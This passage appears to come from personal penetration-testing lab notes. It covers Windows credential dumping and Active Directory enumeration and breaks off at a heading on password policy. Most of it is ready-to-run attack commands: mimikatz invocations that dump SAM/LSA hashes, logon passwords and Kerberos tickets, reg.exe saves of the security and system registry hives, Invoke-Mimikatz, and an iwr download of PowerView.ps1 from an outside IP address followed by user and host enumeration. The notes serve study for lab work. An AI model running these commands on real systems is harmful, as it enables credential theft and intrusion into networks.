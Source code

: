 ```powershell
./mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam sam.hiv security.hiv system.hiv" "exit" | sls ntlm | sort | unique

## Compare with normal command ##
# Normal dump
./mimikatz.exe "privilege::debug" "sekurlsa::logonPasswords full" "exit"
./mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam sam.hiv security.hiv system.hiv" "exit"
# Pass the ticket
./mimikatz.exe "privilege::debug" "sekurlsa::tickets /export" "exit"

# NOTE: If this failed, we can try other tools, try revert, or mimikatz ps1
# In lab I got error and NEEDED TO REVERT MACHINE: "Program 'mimikatz.exe' failed to run: Access is deniedAt line:1 char:1"
#
#dump SAM manually (if user is SYSTEM)
reg.exe save hklm\security C:\temp\security.save
reg.exe save hklm\system C:\temp\system.save
#
# Invoke-Mimikatz.ps1
# TODO: This didn't work for me so idk! Newer version?
# note: try also more dump commands I guess?
. .\Invoke-Mimikatz.ps1
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "lsadump::cache" "sekurlsa::ekeys" "exit"'
Invoke-Mimikatz -DumpCreds #Dump creds from memory
```

- **How to find usernames or devices** \
In addition to mimikatz, use PowerView.ps1

```powershell
cd C:/users/public
iwr -uri http://192.168.45.198/PowerView.ps1 -Outfile PowerView.ps1

Import-Module .\PowerView.ps1
# Enumerate users
Get-NetUser | select cn,pwdlastset,lastlogon
# Hostnames and IP addresses
get-domaincomputer | resolve-ipaddress
# Computers
Get-NetComputer | select operatingsystem, operatingsystemversion, dnshostname
# Shares
Find-DomainShare
```
PowerView --> <https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters/powerview>

Users could reuse passwords.

It's also possible to use SharpHound but it's a somewhat complex for a small network.

- **How to get password policy?** \
